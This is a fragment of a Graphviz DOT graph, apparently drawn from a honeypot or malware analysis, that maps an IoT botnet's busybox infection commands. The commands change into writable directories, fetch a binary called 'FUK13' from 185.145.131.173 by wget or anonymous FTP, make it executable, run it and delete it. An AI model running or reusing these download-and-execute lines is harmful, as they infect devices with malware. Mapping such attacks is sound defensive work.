848 [label="rm -rf FUK13 "];
848 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 860 [label="||,"];
860 [label="/bin/busybox wget http://185.145.131.173/FUK13 "];
860 -> 862 [label=";,"];
862 [label="/bin/busybox chmod +x FUK13 "];
862 -> 864 [label=";,"];
864 [label="./FUK13 "];
864 -> 881 [label=";,"];
881 [label="/bin/busybox rm -rf FUK13 "];
881 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 878 [label="||,"];
878 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 FUK13 FUK13 "];
878 -> 880 [label=";,"];
880 [label="/bin/busybox chmod +x FUK13 ./FUK13 "];
880 -> 881 [label=";,"];
}
